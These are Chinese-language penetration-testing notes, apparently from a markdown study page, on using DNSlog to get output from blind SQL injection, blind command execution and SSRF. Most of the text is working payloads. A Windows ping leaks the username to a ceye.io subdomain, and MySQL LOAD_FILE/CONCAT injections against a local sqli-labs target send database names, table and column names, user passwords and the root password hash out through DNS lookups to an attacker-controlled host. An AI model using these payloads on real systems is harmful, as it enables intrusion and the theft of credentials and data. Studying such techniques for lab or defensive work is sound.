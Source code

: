   - SQL注入中的盲注
    在sql注入时为布尔盲注、时间盲注，注入的效率低且线程高容易**被waf拦截**，又或者是目标站点**没有回显**
  - 无回显的命令执行
    我们在读取文件、执行命令注入等操作时无法明显的确认是否利用成功
  - 无回显的SSRF
  - **<span style="background:#FF9999;">总之就是靶机不让信息显示出来，如果靶机能发送请求，那么就可以尝试咱这个办法——用DNSlog来获取回显</span>**



- [load_file](https://www.xcnte.com/archives/512/)--**读取一个文件并将其内容作为字符串返回。**

  - **必须指定文件==完整的路径==**

  - ```
    SELECT LOAD_FILE('/data/test.txt') AS Result; //返回test文件内容
    ```
  
  - 参数可以是`char()`或者十六进制`hex()`的形式
  
  

普通回显win：

```
ping %USERNAME%.j1wbye.ceye.io
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439850.png" alt="image-20210728162212024" style="zoom: 67%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439851.png" alt="image-20210728162224771" style="zoom:67%;" />

SQL注入：


```mysql
load_file(concat('\\\\',(select database()),'.abcdef.ceye.io\\sql')) //重点
所以就等同于访问了database().abcdef.ceye.io，然后我们的ceye平台就会有记录，那么database()就得到了，\\sql是域名目录，随意即可，select database()换成sql注入payload即可

  要注意的是数据很可能不止一行，因此要用limit分次输出。
  
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc')); 【limit后加1个数字：前几行】
  
1. 查询数据库名
http://127.0.0.1/lou/sql/Less-9/?id=1' and load_file(concat('\\\\',(select database()),'.cmr1ua.ceye.io\\abc'))--+

2. 获取数据表
http://127.0.0.1/lou/sql/Less-9/?id=1' and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.cmr1ua.ceye.io\\abc'))--+

3. 获取表中的字段名
' and load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 0,1),'.cmr1ua.ceye.io\\abc'))--+

4. 获取表中字段下的数据
' and load_file(concat('\\\\',(select password from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
' and load_file(concat('\\\\',(select username from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+

//注意！⚠
//因为在load_file里面不能使用@ ~等符号所以要区分数据我们可以先用group_ws()函数分割在用hex()函数转成十六进制即可 
出来了再转回去
' and load_file(concat('\\\\',(select hex(concat_ws('~',username,password)) from users limit 0,1),'.cmr1ua.ceye.io\\abc'))--+
```
